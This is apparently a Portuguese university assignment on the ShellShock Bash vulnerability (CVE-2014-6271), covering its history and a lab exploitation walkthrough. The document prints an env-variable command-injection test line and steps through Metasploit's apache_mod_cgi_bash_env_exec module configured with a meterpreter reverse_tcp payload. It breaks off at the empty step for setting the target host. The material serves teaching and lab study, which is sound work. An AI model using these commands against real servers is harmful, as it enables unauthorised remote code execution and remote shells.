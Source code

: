 # FSI - L02G06

## CVE-2014-6271 (ShellShock)

### Identificação: descrição geral da vulnerabilidade, incluindo aplicações/sistemas operativos relevantes (max 4 itens com 20 palavras cada)

Esta vulnerabilidade foi descoberta por ![Stéphane Chazelas](https://unix.stackexchange.com/users/22565/st%c3%a9phane-chazelas) e, apesar de conhecida, continua a afetar inúmeros servidores e até mesmo computadores pessoais.

Para testarmos se um dispositivo sofre desta vulnerabilidade, podemos correr o seguinte script:

```bash
env x='() { :;}; echo VULNERABLE; exit;' bash -c "echo 'NOT VULNERABLE'"
```

-- INFORMATIVO --
GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment, as demonstrated by vectors involving the ForceCommand feature in OpenSSH sshd, the mod_cgi and mod_cgid modules in the Apache HTTP Server, scripts executed by unspecified DHCP clients, and other situations in which setting the environment occurs across a privilege boundary from Bash execution, aka "ShellShock." NOTE: the original fix for this issue was incorrect; CVE-2014-7169 has been assigned to cover the vulnerability that is still present after the incorrect fix.
------------------

A vulnerabilidade *ShellShock*, descoberta em 2014, constinua a ser relevante em 2022, devido à sua facilidade de utilização
Este bug encontra-se na linha de comandos do Bash e consegue afetar vários sistemas operativos, incluindo Unix-based, Windows e sistemas conectados aos mesmos por uma *network*
Introduzido em 1989

### Catalogação: o que se sabe sobre o seu reporting, quem, quando, como, bug-bounty, nível de gravidade, etc. (max 4 itens com 20 palavras cada)

- Descoberta por Stéphane Chazelas e comunicada ao mantenedor da Bash a 12 de setembro de 2014
- Divulgada publicamente a 24 de setembro de 2014
- Categorizada com gravidade de 10 na escala de NIST
- Remote Code Execution (RCE) -- na identificação?


### Exploit: descrever que tipo de exploit é conhecido e que tipo de automação existe, e.g., no Metasploit (max 4 itens com 20 palavras cada)

Para emular um ambiente vulnerável a este CVE, pode-se utilizar o Dockerfile criado no diretório ![ambiente](/ambiente/) seguindo as instruções contidas no README.

...

`ID="$(docker run -d rohitnss/shellshock)" && echo $ID && docker exec -it $ID /bin/bash && docker rm -f $ID > /dev/null`


Podemos automatizar este exploit usando a framework Metasploit da seguinte forma:

1. Iniciar a `msfconsole`

```bash
❯ msfconsole


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.2.13-dev                          ]
+ -- --=[ 2239 exploits - 1181 auxiliary - 398 post       ]
+ -- --=[ 864 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Adapter names can be used for IP params
set LHOST eth0
```

2. Procurar pelos exploits existentes na base de dados

```bash
msf6 > search shellshock

Matching Modules
================

   #   Name                                               Disclosure Date  Rank       Check  Description
   -   ----                                               ---------------  ----       -----  -----------
   0   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Yes    Advantech Switch Bash Environment Variable Code Injection (Shellshock)
   1   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   2   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   3   exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  Yes    CUPS Filter Bash Environment Variable Code Injection (Shellshock)
   4   auxiliary/server/dhclient_bash_env                 2014-09-24       normal     No     DHCP Client Bash Environment Variable Code Injection (Shellshock)
   5   exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  No     Dhclient Bash Environment Variable Injection (Shellshock)
   6   exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  Yes    IPFire Bash Environment Variable Injection (Shellshock)
   7   exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Yes    Legend Perl IRC Bot Remote Code Execution
   8   exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     Yes    OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
   9   exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Yes    Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
   10  exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     No     Qmail SMTP Bash Environment Variable Injection (Shellshock)
   11  exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Yes    Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution


Interact with a module by name or index. For example info 11, use 11 or use exploit/multi/misc/xdh_x_exec
```

3. Carregar o exploit pretendido

```bash
msf6 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

Note-se que podemos verificar as várias opções permitidas por este módulo com o comando `options`:

```bash
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0
                                              .0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
   TIMEOUT         5                yes       HTTP read response timeout (seconds)
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.91.142   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux x86
```

Podemos deixar a maioria das opções default, contudo, temos de definir o `remote host` ao qual pretendemos executar o ataque:

4. Definir o `remote host`

```bash

```
